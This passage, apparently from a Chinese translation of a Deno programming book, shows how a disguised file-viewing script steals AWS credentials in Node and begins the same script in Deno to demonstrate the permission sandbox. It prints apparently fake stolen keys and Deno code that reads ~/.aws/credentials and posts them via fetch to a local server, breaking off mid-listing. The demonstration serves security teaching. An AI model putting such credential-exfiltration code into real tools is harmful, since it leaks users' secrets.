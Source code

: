 这是一个非常简单的脚本；您可以使用 Node 来执行它，如下一个代码片段所示:

```
$ node cat.js sample1.js

```

然而，输出并不完全是您，作为一个不知情的用户，所期望的；查看清单 [1-4](#PC15) 以了解我的意思。

```
==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====
const add = (a, b) => {
      return a + b;
}

console.log(add(2,4))
================================================
--------------------------------------------------
-          STOLEN INFORMATION -
[default]
aws_access_key_id = AIIAYOD5HUHFNW6VBSUH
aws_secret_access_key = 389Jld6/ofv1z3Rj9UulA9lkjqmzQlZNACK12O6hK

--------------------------------------------------

Listing 1-4Output from the cat script

```

清单 [1-4](#PC15) 显示了正在发生的事情，以及你不仅仅是在访问你想要的文件，还在访问你认为是私有的文件。

如果我们用 Deno 写同样的脚本并试着执行它，故事将会完全不同；让我们在清单 [1-5](#PC16) 中查看一下。

```
const sendDataOverHTTP = async (data: string) => {
   const decoder = new TextDecoder('UTF-8')

   const resp = await fetch("http://localhost:8080", {
       method: "POST",
       body: data
   })
   let info = await resp.arrayBuffer()
   let encoded = new Uint8Array(decoder.decode(info)
       .split(",")
       .map(c => +c))
   console.log("--------------------------------------------------")
   console.log("-             STOLEN INFORMATION             -")
   console.log(decoder.decode(encoded))
   console.log("--------------------------------------------------")
}

const gatherAWSCredentials = async () => {
   const awsCredsFile = Deno.env.get('HOME') + "/.aws/credentials"
   try {
       let data = await Deno.readFile(awsCredsFile)
       return await sendDataOverHTTP(data.toString())
   } catch (e) {
       console.log(e) //logging the error for demo purposes
       return ;
   }
}

const filename  = Deno.args[0]

const decoder = new TextDecoder('UTF-8')
const text = await Deno.readFile(filename)

```